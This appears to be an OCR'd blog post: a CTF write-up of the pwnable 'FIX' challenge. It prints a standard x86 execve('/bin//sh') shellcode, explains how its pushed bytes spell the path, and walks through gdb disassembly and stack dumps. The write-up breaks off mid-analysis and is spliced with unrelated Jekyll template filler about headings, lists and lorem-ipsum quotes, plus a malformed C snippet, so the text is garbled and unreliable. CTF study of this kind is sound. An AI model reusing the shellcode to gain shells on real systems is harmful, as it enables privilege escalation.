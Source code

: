 ```yaml
---
layout: post
title:  "Pwnable: FIX Write-up"
description: Write-up of "FIX" problem
img: no image
date: 2016-03-07  +0200
---
```


```c
private void test(){
printf(..);
}
```

If you analyze binary file, you could figure out that we could modify 1 byte of shellcode, and we must leverage this vulnerability to obtain privileged shell.
The shellcode is embedded in the binary and I have checked whether it is valid shellcode as below:

> xor    %eax,%eax  
> push   %eax  
> push   $0x68732f2f  
> push   $0x6e69622f  
> mov    %esp,%ebx  
> push   %eax  
> push   %ebx  
> mov    %esp,%ecx  
> mov    $0xb,%al  
> int    $0x80  

Indeed it is valud shellcoded.
To briefly explain meaning of "push $0x68732f2f" and "push $0x6e69622f".
This is very basic technique to create shellcode. It embeds necessary strings in the exploit code as follow:

> push '/' ; is push 0x2f  
> push 'b' ; is push 0x62  
> push 'i' ; is push 0x69  
> push 'n' ; is push 0x6e  
> push '/' ; is push 0x2f  
> push '/' ; is push 0x2f  
> push 's' ; is push 0x73  
> push 'h' ; is push 0x68  

However, even if it is valid shellcode, If you execute the program, it crashes!!!
You need to analyze why this is happening..
I started analyzing using gdb.
Let's disam shellcode function.

> (gdb) disas shellcode  
> Dump of assembler code for function shellcode:  
> 0x080484e4 <+0>: push ebp  
> 0x080484e5 <+1>: mov ebp,esp  
> 0x080484e7 <+3>: sub esp,0x38  
> 0x080484ea <+6>: mov DWORD PTR [esp+0x4],0x804a024  
> 0x080484f2 <+14>: lea eax,[ebp-0x1c]  
> 0x080484f5 <+17>: mov DWORD PTR [esp],eax  
> 0x080484f8 <+20>: call 0x80483e0 <strcpy@plt>  
> 0x080484fd <+25>: lea eax,[ebp-0x1c]  
> 0x08048500 <+28>: lea edx,[eax+0x20]  
> 0x08048503 <+31>: lea eax,[ebp-0x1c]  
> 0x08048506 <+34>: mov DWORD PTR [edx],eax  
> 0x08048508 <+36>: mov DWORD PTR [esp],0x80486a0  
> 0x0804850f <+43>: call 0x80483f0 <puts@plt>  
> 0x08048514 <+48>: leave  
> 0x08048515 <+49>: ret  
> End of assembler dump.  

break at shellcode+6 and evaluate stack.

> (gdb) x/10i *shellcode
> 0x80484e4 <shellcode>: push ebp
> 0x80484e5 <shellcode+1>: mov ebp,esp
> 0x80484e7 <shellcode+3>: sub esp,0x38
> => 0x80484ea <shellcode+6>: mov DWORD PTR [esp+0x4],0x804a024
> 0x80484f2 <shellcode+14>: lea eax,[ebp-0x1c]
> 0x80484f5 <shellcode+17>: mov DWORD PTR [esp],eax
> 0x80484f8 <shellcode+20>: call 0x80483e0 <strcpy@plt>
> 0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]
> 0x8048500 <shellcode+28>: lea edx,[eax+0x20]
> 0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]

> (gdb) x/10wx $ebp
> 0xfff7bed8: 0xfff7bf08*(old ebp)* 0x080485c7*(ret)* 0x0804874e 0xfff7bef8
> 0xfff7bee8: 0xf772cff4 0xf75bd1a5 0xf774f660 0x00000000
> 0xfff7bef8: 0x000000c9 0x0000000d

## Headings

Headings by default:

## Heading first level
### Heading second level
#### Heading third level

{% highlight markdown %}
## Heading first level
### Heading second level
#### Heading third level
{% endhighlight %}

## Lists

Unordered list example:
* Unordered list item 1
* Unordered list item 2
* Unordered list item 3
* Unordered list item 4

Ordered list example:
1. Ordered list item 1
2. Ordered list item 1
3. Ordered list item 1
4. Ordered list item 1

{% highlight markdown %}
* Unordered list item 1
* Unordered list item 2

1. Order list item 1
2. Order list item 1
{% endhighlight %}


## Quotes

A quote looks like this:

> Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor
incididunt ut labore et dolore magna.

{% highlight markdown %}
> Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor
incididunt ut labore et dolore magna.
{% endhighlight %}
